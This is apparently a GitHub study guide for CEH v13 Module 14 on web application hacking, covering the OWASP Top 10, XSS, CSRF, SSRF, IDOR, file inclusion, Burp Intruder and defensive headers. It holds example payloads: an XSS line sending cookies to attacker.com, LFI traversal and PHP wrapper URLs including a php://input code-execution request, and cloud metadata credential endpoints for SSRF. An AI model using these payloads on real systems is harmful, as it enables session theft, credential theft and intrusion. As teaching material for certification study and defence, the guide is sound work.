



<div align="center">




# 🛡️ CEH v13 — Module 14: Hacking Web Applications
### Certified Ethical Hacker (CEH) Exam Notes • OWASP Top 10 • XSS & CSRF • SSRF & IDOR • File Inclusion (LFI/RFI) • Burp Suite Intruder • WAF Hardening

[-0078D4?style=for-the-badge&logo=shield)](https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/)
[](https://www.eccouncil.org/)
[](../README.md)
[](./README.md)

<p align="center">
  <b>Authoritative, exam-oriented study guide and reference architecture for CEH v13 Module 14: Hacking Web Applications. Covers modern multi-tier web application architectures, the OWASP Top 10 vulnerabilities, Cross-Site Scripting (Stored, Reflected, DOM), Cross-Site Request Forgery (CSRF), Server-Side Request Forgery (SSRF) and Cloud Metadata exploitation, Insecure Direct Object References (IDOR), Local and Remote File Inclusion (LFI/RFI) with PHP wrappers, Burp Suite Intruder attack modes, and WAF defense.</b>
</p>

[📖 Module Hub](../README.md) • [🧰 Burp Suite & Web Pentest Tools](../../tools/README.md) • [🗺️ Knowledge Base Index](../../README.md)

</div>

---

## 📋 Table of Contents

- [1. Web Application Architecture & Threat Landscape](#1-web-application-architecture--threat-landscape)
  - [The Multi-Tier Web Application Model](#the-multi-tier-web-application-model)
  - [HTTP Protocol, Headers, and Stateless Sessions](#http-protocol-headers-and-stateless-sessions)
- [2. The OWASP Top 10 Framework](#2-the-owasp-top-10-framework)
  - [OWASP Top 10 Mapping & Core Tenets](#owasp-top-10-mapping--core-tenets)
- [3. Cross-Site Scripting (XSS) Deep-Dive](#3-cross-site-scripting-xss-deep-dive)
  - [Stored (Persistent) XSS](#stored-persistent-xss)
  - [Reflected (Non-Persistent) XSS](#reflected-non-persistent-xss)
  - [DOM-Based XSS](#dom-based-xss)
  - [XSS Exploitation Payloads & Session Stealing](#xss-exploitation-payloads--session-stealing)
- [4. Cross-Site Request Forgery (CSRF)](#4-cross-site-request-forgery-csrf)
  - [CSRF Attack Mechanics](#csrf-attack-mechanics)
  - [Countermeasures: Anti-CSRF Tokens & SameSite Cookies](#countermeasures-anti-csrf-tokens--samesite-cookies)
- [5. Server-Side Request Forgery (SSRF) & Cloud Metadata Exploitation](#5-server-side-request-forgery-ssrf--cloud-metadata-exploitation)
  - [SSRF Mechanics & Pivot Vector](#ssrf-mechanics--pivot-vector)
  - [Cloud Metadata Service Attack (169.254.169.254)](#cloud-metadata-service-attack-169254169254)
- [6. Access Control Failures: IDOR & Directory Traversal](#6-access-control-failures-idor--directory-traversal)
  - [Insecure Direct Object References (IDOR)](#insecure-direct-object-references-idor)
  - [Directory Traversal & Path Manipulation](#directory-traversal--path-manipulation)
  - [Local File Inclusion (LFI) & PHP Wrappers](#local-file-inclusion-lfi--php-wrappers)
  - [Remote File Inclusion (RFI)](#remote-file-inclusion-rfi)
- [7. Industry Web Pentesting Toolchains & Burp Suite](#7-industry-web-pentesting-toolchains--burp-suite)
  - [Burp Suite Intruder: The 4 Attack Types (High-Yield Exam Concept)](#burp-suite-intruder-the-4-attack-types-high-yield-exam-concept)
  - [Directory & Endpoint Brute-Forcing: Gobuster & Feroxbuster](#directory--endpoint-brute-forcing-gobuster--feroxbuster)
- [8. Web Application Hardening & Defensive Architecture](#8-web-application-hardening--defensive-architecture)
  - [Web Application Firewalls (WAF)](#web-application-firewalls-waf)
  - [Security HTTP Response Headers (CSP, HSTS, X-Frame-Options)](#security-http-response-headers-csp-hsts-x-frame-options)
  - [Input Validation & Context-Aware Output Encoding](#input-validation--context-aware-output-encoding)
- [9. Master Decision Tree & Flowchart](#9-master-decision-tree--flowchart)
- [10. CEH v13 Exam Essentials & Distinction Matrix](#10-ceh-v13-exam-essentials--distinction-matrix)

---

## 1. Web Application Architecture & Threat Landscape

### The Multi-Tier Web Application Model

Modern web applications distribute logic across decoupled layers:

```
+--------------------------------------------------------------------------+
|                      MULTI-TIER WEB ARCHITECTURE                         |
+--------------------------------------------------------------------------+
|  CLIENT TIER (Presentation):                                             |
|  - Web browser, mobile app, JavaScript single-page application (React).  |
|  - Flaws: DOM-based XSS, client-side validation bypass, sensitive data   |
|    cached in LocalStorage or cookies.                                    |
+--------------------------------------------------------------------------+
|  WEB / REVERSE PROXY TIER:                                               |
|  - Nginx, Apache, HAProxy, Cloudflare, AWS CloudFront.                   |
|  - Flaws: HTTP Request Smuggling, SSL/TLS misconfigurations.             |
+--------------------------------------------------------------------------+
|  APPLICATION LOGIC TIER:                                                 |
|  - Node.js, Python/Django, Java Spring Boot, PHP, .NET Core.             |
|  - Flaws: SSRF, IDOR, RCE, Deserialization, business logic bypasses.     |
+--------------------------------------------------------------------------+
|  DATABASE TIER (Data Storage):                                           |
|  - PostgreSQL, MySQL, Microsoft SQL Server, MongoDB, Redis.             |
|  - Flaws: SQL Injection, NoSQL Injection, unauthenticated database ports.|
+--------------------------------------------------------------------------+
```

---

## 2. The OWASP Top 10 Framework

The **OWASP Top 10** represents the consensus standard on critical web application risks tested extensively in CEH v13:

| OWASP Category | Vulnerability Domain | Core Mechanism & Mitigation |
| :--- | :--- | :--- |
| **A01: Broken Access Control** | Unauthorized access to data/actions | Enforce strict server-side authorization checks; eliminate IDOR; deny by default. |
| **A02: Cryptographic Failures** | Sensitive data exposure in transit/at rest | Enforce TLS 1.3, AES-256-GCM; disable weak ciphers; eliminate plaintext storage. |
| **A03: Injection** | SQL, NoSQL, OS Command, LDAP Injection | Use parameterized queries (Prepared Statements); input validation; avoid `eval()`. |
| **A04: Insecure Design** | Architectural flaws prior to coding | Threat modeling, secure design patterns, principle of least privilege. |
| **A05: Security Misconfiguration** | Default credentials, verbose error stack traces | Automated configuration audits, hardening baselines, disabling directory listing. |
| **A06: Vulnerable & Outdated Components** | Unpatched third-party libraries | Software Bill of Materials (SBOM), automated dependency vulnerability scanning (Snyk). |
| **A07: Identification & Auth Failures** | Weak passwords, session hijacking | Multi-Factor Authentication (MFA), secure session token generation, rate limiting. |
| **A08: Software & Data Integrity Failures** | Untrusted CI/CD pipelines, deserialization | Digital signatures on software updates, verifying artifact integrity (hashes). |
| **A09: Security Logging & Monitoring** | Undetected breaches, unlogged actions | Centralized SIEM forwarding, real-time alerting, audit trail immutability. |
| **A10: Server-Side Request Forgery (SSRF)** | Server tricked into requesting internal LAN/cloud | Whitelisting permitted outbound domains, disabling HTTP redirects, IMDSv2. |

---

## 3. Cross-Site Scripting (XSS) Deep-Dive

Cross-Site Scripting occurs when untrusted input is reflected or rendered in a victim's browser without adequate sanitization or output encoding.

```
+--------------------------------------------------------------------------+
|                         THE THREE TYPES OF XSS                           |
+--------------------------------------------------------------------------+
|  1. STORED (PERSISTENT) XSS:                                             |
|  - Payload is permanently stored in the application's database (e.g.,    |
|    comment section, user profile, message board).                        |
|  - Executes automatically whenever any victim loads the affected page!   |
|  - Highest severity XSS category.                                        |
+--------------------------------------------------------------------------+
|  2. REFLECTED (NON-PERSISTENT) XSS:                                      |
|  - Payload is delivered via request parameters (URL query string, form   |
|    inputs) and immediately reflected back in the server's HTTP response. |
|  - Requires social engineering: Victim must click an attacker's link.    |
+--------------------------------------------------------------------------+
|  3. DOM-BASED XSS:                                                       |
|  - The vulnerability exists entirely in client-side JavaScript.          |
|  - Untrusted data from a "Source" (e.g., location.search, location.hash) |
|    flows directly into an execution "Sink" (e.g., document.write,        |
|    element.innerHTML, eval()) without ever touching the backend server!  |
+--------------------------------------------------------------------------+
```

### XSS Exploitation Payloads & Session Stealing

```html
<!-- Basic Proof of Concept (PoC) -->
<script>alert(document.domain)</script>

<!-- Session Cookie Exfiltration (if HttpOnly is NOT set) -->
<script>
  new Image().src = "http://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie);
</script>

<!-- Bypassing naive string filters using inline event handlers -->

<svg onload=alert(1)>
```

---

## 4. Cross-Site Request Forgery (CSRF)

### CSRF Attack Mechanics

CSRF tricks an authenticated user's browser into executing unwanted administrative actions on a vulnerable application where the user is currently logged in:



### Countermeasures: Anti-CSRF Tokens & SameSite Cookies

1. **Anti-CSRF Synchronizer Tokens**: Cryptographically random, unpredictable tokens generated per-session or per-request. Embedded in hidden form fields and validated on the server.
2. **SameSite Cookie Attribute**:
   * `SameSite=Strict`: Cookie is **never** sent in cross-site requests (e.g., following external links).
   * `SameSite=Lax`: Cookie is sent with top-level navigation (GET requests), but blocked on cross-site POST requests. Default in modern browsers.
   * `SameSite=None`: Cookie sent in all cross-site requests (requires `Secure` attribute).

---

## 5. Server-Side Request Forgery (SSRF) & Cloud Metadata Exploitation

### SSRF Mechanics & Pivot Vector

In an SSRF attack, the attacker abuses functionality on the vulnerable web server (e.g., "Import from URL", webhooks, image preview generators) to force the backend server to initiate HTTP requests to internal, non-routable private networks or loopback interfaces:

```
[ Attacker ] 
     |
     | 1. POST /fetch?url=http://169.254.169.254/latest/meta-data/
     v
[ Vulnerable Web Server ] 
     |
     | 2. Server makes internal request to Link-Local Cloud Metadata IP
     v
[ AWS / Cloud Metadata Service ] 
     |
     | 3. Returns IAM Role Temporary Credentials (AccessKey, SecretKey, Token)
     v
[ Attacker receives Cloud Keys in response! ]
```

### High-Yield Cloud Metadata Endpoints

| Cloud Provider | Metadata IP Address & Endpoint | Required Headers / Notes |
| :--- | :--- | :--- |
| **AWS (IMDSv1)** | `http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>` | No headers required; highly vulnerable to SSRF. |
| **AWS (IMDSv2)** | Requires `X-aws-ec2-metadata-token-ttl-seconds: 21600` via PUT to obtain token. | Mitigates standard SSRF. |
| **Google Cloud (GCP)**| `http://metadata.google.internal/computeMetadata/v1/` | Requires header `Metadata-Flavor: Google`. |
| **Azure** | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` | Requires header `Metadata: true`. |

---

## 6. Access Control Failures: IDOR & Directory Traversal

### Insecure Direct Object References (IDOR)

Occurs when an application uses user-supplied input to access database records or objects directly without validating that the requester owns the target resource:

```http
# Normal Request (User views their own invoice)
GET /api/v1/invoices?invoice_id=9845 HTTP/1.1
Host: target.com

# IDOR Attack (Attacker increments ID to harvest competitor records)
GET /api/v1/invoices?invoice_id=9846 HTTP/1.1
Host: target.com
```

### Local File Inclusion (LFI) & PHP Wrappers

When user input is passed directly into file inclusion APIs (`include()`, `require()` in PHP):

```php
// Vulnerable PHP Code
include($_GET['page']);
```

```bash
# Basic Path Traversal / LFI
http://target.com/index.php?page=../../../../etc/passwd

# LFI with Null Byte Injection (Bypasses appended extensions like .php in PHP < 5.3.4)
http://target.com/index.php?page=../../../../etc/passwd%00

# PHP Base64 Filter Wrapper (Reads source code of protected files without executing them)
http://target.com/index.php?page=php://filter/convert.base64-encode/resource=config.php

# PHP Input Wrapper (Achieves RCE via raw POST body)
POST /index.php?page=php://input HTTP/1.1
Host: target.com
Content-Length: 28

<?php system('id; whoami'); ?>
```

---

## 7. Industry Web Pentesting Toolchains & Burp Suite

### Burp Suite Intruder: The 4 Attack Types (High-Yield Exam Concept)

```
+--------------------------------------------------------------------------+
|                  BURP SUITE INTRUDER ATTACK MODES                        |
+--------------------------------------------------------------------------+
|  1. SNIPER:                                                              |
|  - Uses a single payload set.                                            |
|  - Targets each position in turn, substituting the payload into one      |
|    position while leaving all other positions set to their base values.  |
|  - Best for fuzzing parameters one-by-one or testing single inputs.      |
+--------------------------------------------------------------------------+
|  2. BATTERING RAM:                                                       |
|  - Uses a single payload set.                                            |
|  - Places the EXACT SAME payload into ALL defined positions              |
|    simultaneously for each request.                                      |
|  - Best when username and password might be identical.                   |
+--------------------------------------------------------------------------+
|  3. PITCHFORK:                                                           |
|  - Uses MULTIPLE payload sets (one per defined position).                |
|  - Iterates through all sets in parallel (e.g., Row 1 of List A paired    |
|    with Row 1 of List B; Row 2 with Row 2).                              |
|  - Stops when the shortest list is exhausted.                            |
|  - Best for testing paired credentials (known username:password lists).  |
+--------------------------------------------------------------------------+
|  4. CLUSTER BOMB:                                                        |
|  - Uses MULTIPLE payload sets (one per defined position).                |
|  - Tests EVERY POSSIBLE PERMUTATION (Cartesian Product) of all sets!    |
|    (e.g., 100 usernames * 100 passwords = 10,000 requests).              |
|  - Best for exhaustive credential brute-forcing.                         |
+--------------------------------------------------------------------------+
```

---

## 8. Web Application Hardening & Defensive Architecture

### Security HTTP Response Headers

| Header | Production Directive | Defensive Security Value |
| :--- | :--- | :--- |
| **Content-Security-Policy (CSP)** | `default-src 'self'; script-src 'self' https://trusted.cdn.com;` | Neutralizes XSS by restricting domains permitted to execute scripts. |
| **Strict-Transport-Security (HSTS)**| `max-age=31536000; includeSubDomains; preload` | Enforces browser HTTPS connections; prevents SSL Stripping attacks. |
| **X-Frame-Options** | `DENY` or `SAMEORIGIN` | Defeats **Clickjacking** by preventing page rendering inside `<iframe>`. |
| **X-Content-Type-Options** | `nosniff` | Prevents MIME-confusion attacks and rogue script execution from images. |
| **Referrer-Policy** | `strict-origin-when-cross-origin` | Prevents sensitive query parameters / tokens leaking in `Referer` headers. |

---

## 9. Master Decision Tree & Flowchart

```
                          [ WEB APPLICATION INPUT ]
                                     |
              Does user input reflect back into the HTTP response?
                             /                \
                           YES                 NO
                          /                     \
             Does it execute in the browser?   Does it reach a backend system?
                    /         \                         /              \
                  YES          NO                     YES               NO
                 /              \                    /                   \
             [ XSS ]       [ BENIGN ]     Is it a Database?     Is it a Backend URL?
            /   |   \                        /         \                 |
      STORED REFLECTED DOM              [ SQLi ]   [ NoSQLi ]         [ SSRF ]
```

---

## 10. CEH v13 Exam Essentials & Distinction Matrix

| Concept / Attack | Essential CEH Exam Distinction |
| :--- | :--- |
| **Burp Intruder Attack Modes** | **Cluster Bomb** tests all permutations (Cartesian product). **Pitchfork** steps through lists in lockstep (Row 1 with Row 1). **Sniper** tests one position at a time. |
| **XSS vs. CSRF** | **XSS** executes malicious scripts in the victim's browser to steal data/tokens. **CSRF** exploits the trust a web app has in an authenticated browser to submit unauthorized actions. |
| **DOM-based XSS** | Executed entirely client-side; untrusted input from a **source** flows into an execution **sink** (`document.write`, `innerHTML`) without server processing. |
| **LFI vs. RFI** | **LFI** includes local files on the web server (`/etc/passwd`). **RFI** requires `allow_url_include = On` in PHP and loads payloads from an external attacker web server. |
| **PHP Base64 Filter** | `php://filter/convert.base64-encode/resource=file.php` reads raw source code without executing it on the server. |
| **SSRF Target IP** | The link-local metadata address **`169.254.169.254`** is targeted to steal IAM cloud credentials in AWS, GCP, and Azure. |
| **Clickjacking Defense** | The **`X-Frame-Options: DENY`** or `SAMEORIGIN` HTTP header prevents malicious framing. |

---

<div align="center">

[⬅️ Previous: Module 13 — Hacking Web Servers](../Module%2013/README.md) • [Next: Module 15 — SQL Injection ➡️](../Module%2015/README.md)

</div>
